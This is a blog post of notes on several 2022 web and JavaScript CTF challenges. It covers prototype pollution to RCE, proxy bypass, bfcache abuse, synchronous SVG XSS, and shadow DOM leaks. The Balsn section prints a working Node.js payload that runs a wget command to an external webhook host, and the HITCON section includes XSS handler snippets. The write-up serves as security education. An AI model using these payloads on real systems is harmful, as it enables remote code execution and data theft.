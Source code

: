```yaml
---
title: Notes on Several CTF Challenges Related to Web and JS
catalog: true
date: 2022-12-08 20:10:44
tags: [Security]
categories: [Security]
photos: /img/ctf-js-notes/cover-en.png
---
```


Recently, there were several CTF challenges that were quite good, such as SECCON and HITCON, but unfortunately, I was traveling abroad at that time and was too lazy to write complete writeups after returning. Originally, I was even too lazy to take notes, but once time passed, it became difficult to find related information, so I decided to write a brief summary.

In addition, I will also briefly mention several challenges that I think I should have taken notes on before, but for some reason, I did not.

Keywords:

1. Node.js prototype pollution gadget to RCE (Balsn CTF 2022 - 2linenodejs)
2. Obtaining the original value of a JS proxy (corCTF 2022 - sbxcalc)
3. Cache of browser back behavior (SECCON CTF 2022 - spanote)
4. Using SVG to create synchronous XSS (HITCON CTF 2022)
5. Reading data from shadow DOM (HITCON CTF 2022)

<!-- more -->

## Balsn CTF 2022 - 2linenodejs

The code is very simple:

``` js
#!/usr/local/bin/node
process.stdin.setEncoding('utf-8');
process.stdin.on('readable', () => {
  try{
    console.log('HTTP/1.1 200 OK\nContent-Type: text/html\nConnection: Close\n');
    const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
    obj = JSON.parse(json);
    console.log(`JSON: ${json}, Object:`, require('./index')(obj, {}));
  }catch (e) {
    require('./usage')
  }finally{
    process.exit();
  }
});

// index
module.exports=(O,o) => (
    Object.entries(O).forEach(
        ([K,V])=>Object.entries(V).forEach(
            ([k,v])=>(o[K]=o[K]||{},o[K][k]=v)
        )
    ), o
);
```

There is an obvious prototype pollution vulnerability, so the challenge is about how to achieve RCE after having prototype pollution in node.js.

Another key point is the `require('./usage')` inside the catch.

The last key point is this paper: [Silent Spring: Prototype Pollution Leads to Remote Code Execution in Node.js](https://arxiv.org/abs/2207.11171), which mentions many cases of RCE from prototype pollution and provides gadgets or some hints.

However, one of the vulnerabilities in the paper has been fixed in the version used in this challenge: https://github.com/nodejs/node/blob/v18.8.0/lib/internal/modules/cjs/loader.js#L484

``` js
const { 1: name, 2: expansion = '' } =
    RegExpPrototypeExec(EXPORTS_PATTERN, request) || kEmptyObject;
```

kEmptyObject is `ObjectFreeze(ObjectCreate(null))`, so it cannot be polluted.

But anyway, if you continue to look for it in the file, you will find that the `trySelf` function has the same problem here: https://github.com/nodejs/node/blob/c200106305f4367ba9ad8987af5139979c6cc40c/lib/internal/modules/cjs/loader.js#L454

``` js
const { data: pkg, path: pkgPath } = readPackageScope(parentPath) || {};
```

The default value here also uses `{}`, so it can be interfered with through prototype pollution.

The following code will load `./pwn.js` instead of `./usage.js`:

``` js
Object.prototype["data"] = {
  exports: {
    ".": "./pwn.js"
  },
  name: './usage.js'
}
Object.prototype["path"] = './'

require('./usage.js')
```

Therefore, through prototype pollution, any file can be required. The next task is to find a built-in file with a usable payload. My teammate found `/opt/yarn-v1.22.19/preinstall.js`, and the final payload looks like this:

```js
Object.prototype["data"] = {
  exports: {
    ".": "./preinstall.js"
  },
  name: './usage'
}
Object.prototype["path"] = '/opt/yarn-v1.22.19'
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
  "NODE_DEBUG": "console.log(require('child_process').execSync('wget${IFS}https://webhook.site/a0beafdc-df63-4804-85a8-7945ad473bf5?q=2').toString());process.exit()//",
  "NODE_OPTIONS": "--require=/proc/self/environ"
}

require('./usage.js')
```

Writeups by others:

1. https://ctf.zeyu2001.com/2022/balsnctf-2022/2linenodejs
2. [Node.js require() RCE复现](https://hujiekang.top/2022/10/11/NodeJS-require-RCE/)

### corCTF 2022 - sbxcalc

The core part of this challenge can be seen as follows:

``` js
var p = new Proxy({flag: window.flag || 'flag'}, {
  get: () => 'nope'
})
```

How can you get the flag blocked by the proxy?

The answer is `Object.getOwnPropertyDescriptor`.

`Object.getOwnPropertyDescriptor(p, 'flag')` can be used to obtain the original value instead of the value processed by the proxy.

Author's writeup: https://brycec.me/posts/corctf_2022_challenges#sbxcalc

### SECCON CTF 2022 Quals - spanote

There is a cache in Chrome called back/forward cache, abbreviated as bfcache, which I heard for the first time: https://web.dev/i18n/en/bfcache/

The second disk cache should be more familiar to everyone, and fetched resources will be stored in it.

Using this bfcache, interesting behaviors can be achieved.

Now there is an API like this:

``` js
fastify.get("/api/notes/:noteId", async (request, reply) => {
  const user = new User(request.session.userId);
  if (request.headers["x-token"] !== hash(user.id)) {
    throw new Error("Invalid token");
  }
  const noteId = validate(request.params.noteId);
  return user.sendNote(reply, noteId);
});
```

Although it is a GET, it will check the custom header, so it cannot be accessed directly by the browser.

But with the cache behavior just mentioned, you can:

1. Open `/api/notes/id` in the browser and an error message will appear.
2. Go to the homepage with the same tab. At this time, the homepage will use fetch with custom header to fetch `/api/notes/id`, and the browser will store the result in the disk cache.
3. Go back one page, and the screen will display the result of the disk cache.

You can use the browser to directly browse the cached response and bypass the restriction of the custom header.

For a more detailed writeup of the entire question, please see here: https://blog.arkark.dev/2022/11/18/seccon-en/#web-spanote

### HITCON CTF 2022

First, let's post the writeups for maple and splitline:

1. https://github.com/maple3142/My-CTF-Challenges/tree/master/HITCON%20CTF%202022
2. https://blog.splitline.tw/hitcon-ctf-2022/

This time I only looked at Self Destruct Message, and briefly talked about several points.

The first is when executing `element.innerHTML = str`, usually anything in HTML will be executed asynchronously, for example:

```js
element.innerHTML = '<img src=x onerror=console.log(1)>'
console.log(2)
```

It is definitely logging 2 first and then 1.

But if you write it like this:

```js
const div = document.createElement('div')
div.innerHTML = '<svg><svg onload=console.log(1)>'
console.log(2)
```

It will magically become 1 in front, and this div will even work without being placed in the DOM. The relevant discussion can be seen in this thread: https://twitter.com/terjanq/status/1421093136022048775

Next is to use the error stack to find the original location and get the flag id:

``` js
window.addEventListener('unhandledrejection', e => {
	console.log(e.reason.stack.match(/\/message\/(\w+)/)[1]);
});
```

And this question also has other solutions. Although the element is placed in the shadow DOM, the flag can be stolen through some xsleak. The more complete research is here: [The Closed Shadow DOM](https://blog.ankursundara.com/shadow-dom/)

Similar questions have appeared in DiceCTF 2022, and I have written a post about my experience, but I didn't start tagging keywords at that time: https://blog.huli.tw/2022/02/08/what-i-learned-from-dicectf-2022/

